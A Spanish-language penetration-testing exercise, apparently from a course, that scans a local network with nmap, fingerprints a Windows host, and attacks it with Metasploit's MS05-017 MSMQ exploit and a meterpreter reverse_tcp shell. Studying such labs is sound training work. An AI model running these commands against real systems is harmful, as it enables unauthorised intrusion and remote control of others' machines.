






# Ejericio 1 (Primer Exploit)

## Exploit Activo

Este primer ejercicio consiste en el uso de un primer exploit a partir del escaneo de todos los dispositivos que se encuentran dentro de la red.

### Prerequisistos

* Tener instalado **Metasploit**
* Tener instalado **Nmap**

### Desarrollo

Primero identificamos en que tipo de red nos encontramos (Clase A, B, C) para poder llevar a cabo el escaneo con Nmap.
Ejecutamos el siguiente comando:

```bash
ifconfig
```

Para este caso en especifico, nos situamos dentro de una red tipo C



A continuación realizamos el escaneo de los dispositivos conectados a la red:

```bash
nmap 192.168.1.*
```

Tras la siguiente salida, enfocaremos el ataque al dispositivo con la dirección IP ```192.168.1.66```



Para detectar el SO que tiene dicho dispositivo, utilizamos el comando:

```bash
nmap --script smb-os-discovery.nse 192.168.1.66
```


Para detectar los servicios que estan corriendo en el dispositivo, ejecutamos:

```bash
nmap -sV 192.168.1.66
```



Para este caso explotaremos la vulnerabilidad del servicio `msrpc` buscando un exploit.

Primero iniciaremos **Metasploit**

```bash
msfconsole
```

A continuación realizamos la búsqueda del exploit con:

```bash
search msrpc
```



Para ver con mas detalle en que consiste este exploit, utilizamos el comando:

```bash
info exploit/windows/dcerpc/ms05_017_msmq
```



Para hacer uso del exploit ejecutamos el comando:

```bash
use exploit/windows/dcerpc/ms05_017_msmq
```

Como en muchos de los exploits, es necesario configurar algunas opciones, para conocer a detalle que opciones hay que configurar, despues de ejecutar el comando anterior utilizamos:

```bash
show options
```

Es importante señalar que aquellas opciones cuyo valor sea **yes** en el parametro **Required** son obligatorias de configurar. Para configurar alguna de las opciones utilizamos la sentencia `set` cuya sintáxis es la siguiente:

```bash
set [nombre de la opción] [valor]
```

Para este ejercicio es necesario configurar la opción **rhost**, de tal forma que la instrucción encargada de realizar dicha configuración seria la siguiente:

```bash
set rhost 192.168.1.66
```

Para visualizar aquellos **payloads** que son compatibles con el exploit que estamos utilizando, hacemos uso del comando:

```bash
show payloads
```

Para este ejercicio utilizaremos el payload `windows/meterpreter/reverse_tcp`, especificandolo con el comando:

```bash
set payload windows/meterpreter/reverse_tcp
```
Después de realizar las configuraciones necesarias lanzamos el exploit con el comando:

```bash
exploit
```